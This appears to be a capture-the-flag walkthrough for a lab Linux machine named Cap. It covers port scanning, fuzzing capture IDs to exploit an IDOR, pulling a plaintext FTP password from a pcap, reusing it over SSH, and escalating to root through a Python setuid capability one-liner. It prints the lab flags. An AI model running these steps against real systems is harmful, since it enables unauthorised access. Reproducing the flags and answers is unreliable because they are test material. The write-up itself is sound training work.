

# Starting Point / Cap

**About:** Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

**Target:** `10.129.17.91`

---

## Task 1 - How many TCP ports are open?

**Step 1 always:** nmap

```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

**Answer:** `3`

---

## Task 2 - After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Firefox -> http://10.129.17.91/ -> http://10.129.17.91/capture -> http://10.129.17.91/data/1

**Answer:** `data`

---

## Task 3 - Are you able to get to other users' scans?

Yes, super simple fuzz editing the data id:

```bash
┌──(nomad㉿kali)-[~/HTB/machines/Cap]
└─$ ffuf -w ./nums.txt -u http://10.129.17.91/data/FUZZ -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.17.91/data/FUZZ
 :: Wordlist         : FUZZ: /home/nomad/HTB/machines/Cap/nums.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

2                       [Status: 200, Size: 17144, Words: 7066, Lines: 371, Duration: 141ms]
1                       [Status: 200, Size: 17147, Words: 7066, Lines: 371, Duration: 155ms]
0                       [Status: 200, Size: 17147, Words: 7066, Lines: 371, Duration: 161ms]
```

**Answer:** `yes`

---

## Task 4 - What is the ID of the PCAP file that contains sensative data?

From previous task:

**Answer:** `0`

---

## Task 5 - Which application layer protocol in the pcap file can the sensetive data be found in?

Looking at the pcap downloaded:

```bash
36	4.126500	192.168.196.1	192.168.196.16	FTP	69	Request: USER nathan
37	4.126526	192.168.196.16	192.168.196.1	TCP	56	21 → 54411 [ACK] Seq=21 Ack=14 Win=64256 Len=0
38	4.126630	192.168.196.16	192.168.196.1	FTP	90	Response: 331 Please specify the password.
39	4.167701	192.168.196.1	192.168.196.16	TCP	62	54411 → 21 [ACK] Seq=14 Ack=55 Win=1051136 Len=0
40	5.424998	192.168.196.1	192.168.196.16	FTP	78	Request: PASS Buck3tH4TF0RM3!
```

We see that FTP credentials were passed in the clear



**Answer:** `ftp`

---

## Task 6 - We've managed to collect nathan's FTP password. On what other service does this password work?

Could it work with SSH?

```bash                                                                                                
┌──(nomad㉿kali)-[~/HTB/machines/Cap]
└─$ ssh nathan@10.129.17.91
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
nathan@10.129.17.91's password:  Buck3tH4TF0RM3!
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ 
```

Yes

**Answer:** `ssh`

---

## Task 7 - Submit the flag located in the nathan user's home directory.

```bash
nathan@cap:~$ cat user.txt 
1154db13797a2d3f01105450bc96b1d6
```

**Answer:** `1154db13797a2d3f01105450bc96b1d6`

---

## Task 8 - What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

Use `getcap` to find capabilities:

```bash
NAME
       getcap - examine file capabilities

SYNOPSIS
       getcap [-v] [-n] [-r] [-h] filename [ ... ]

DESCRIPTION
       getcap displays the name and capabilities of each specified

OPTIONS
       -h  prints quick usage.

       -n  prints any non-zero namespace rootid value found to be associated with a file's capabilities.

       -r  enables recursive search.

       -v  enables to display all searched entries, even if it has no file-capabilities.
```

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`/usr/bin/python3.8` has the capability to make arbitrary manipulations of process UIDs, meaning it can call `setuid(0)` to achieve root

```bash
NAME
       capabilities - overview of Linux capabilities

DESCRIPTION
       For the purpose of performing permission checks, traditional UNIX implementations distinguish two categories of processes: privileged processes (whose effec‐
       tive user ID is 0, referred to as superuser or root), and unprivileged processes (whose effective UID is nonzero).  Privileged processes  bypass  all  kernel
       permission checks, while unprivileged processes are subject to full permission checking based on the process's credentials (usually: effective UID, effective
       GID, and supplementary group list).

       CAP_SETUID
              * Make arbitrary manipulations of process UIDs (setuid(2), setreuid(2), setresuid(2), setfsuid(2));
              * forge UID when passing socket credentials via UNIX domain sockets;
              * write a user ID mapping in a user namespace (see user_namespaces(7)).
```

**Answer:** `/usr/bin/python3.8`

---

## Task 9 - Submit the flag located in root's home directory.

Now just exploit that:

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)

root@cap:~# cat /root/root.txt 
e925b6d7dfba9a322352068913e68cce
```

**Answer:** `e925b6d7dfba9a322352068913e68cce`
